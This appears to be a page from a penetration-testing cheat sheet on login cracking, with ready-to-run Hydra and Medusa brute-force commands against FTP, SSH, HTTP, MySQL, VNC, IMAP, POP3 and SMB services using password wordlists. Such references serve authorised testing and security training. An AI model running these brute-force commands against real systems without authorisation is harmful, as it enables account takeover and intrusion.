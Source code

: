 ```yaml
---
title: Login
layout: page
parent: cracking
---
```


# Login

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Login bypass tools

### Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a very fast and flexible login cracker that supports many different protocols. It can be used to perform brute-force attacks against various services, including HTTP, FTP, SSH, and more.

```bash
hydra -l user -P /tmp/wordlists/passwords/password.txt ftp://192.168.0.1
```

You can also use the `-t` flag to define the number of connects in parallel per target which is defaulted to 16, or use the `-m` flag for more options specific to each module.
The uppercase flags are to be used when you want to use a list (when you don't know this credential), and the lowercase when you know this login information.

- Basic HTTP auth :

```bash
hydra -L /tmp/wordlists/usernames/http_default_users.txt -P /tmp/wordlists/passwords/password.txt -u -f TARGET_IP -s PORT http-get /
```

- SSH :

```bash
hydra -l alice -P /tmp/wordlists/passwords/password.txt -u -f ssh://TARGET_IP:PORT -t 4
```

- MySQL :

```bash
hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -P /tmp/wordlists/passwords/password.txt -f mysql://TARGET_IP -V
```

- VNC :

```bash
hydra -l bob –P /tmp/wordlists/passwords/password.txt -s PORT TARGET_IP vnc
```

- Other examples :

```bash
  hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L /tmp/wordlists/usernames/multiple_sources_users.txt -P /tmp/wordlists/passwords/password.txt -M targets.txt ssh
```

### Medusa

[Medusa](https://github.com/jmk-foofus/medusa) is a speedy, parallel, and modular, login brute-forcer.
There are many other modules that are supported such as :

- CVS
- FTP
- HTTP
- RLOGIN
- SSHv2

To display them, simply use this command :

```bash
medusa -d
```

And to get specific options for a given module :

```bash
medusa -M smbnt -q
```

The following command instructs Medusa to test all passwords listed in passwords.txt against a single user (administrator) on the host 192.168.0.20 via the SMB service. The "-e ns" instructs Medusa to additionally check if the administrator account has either a blank password or has its password set to match its username (administrator).

```bash
medusa -h 192.168.0.20 -u administrator -P /tmp/wordlists/passwords/password.txt -e ns -M smbnt
```

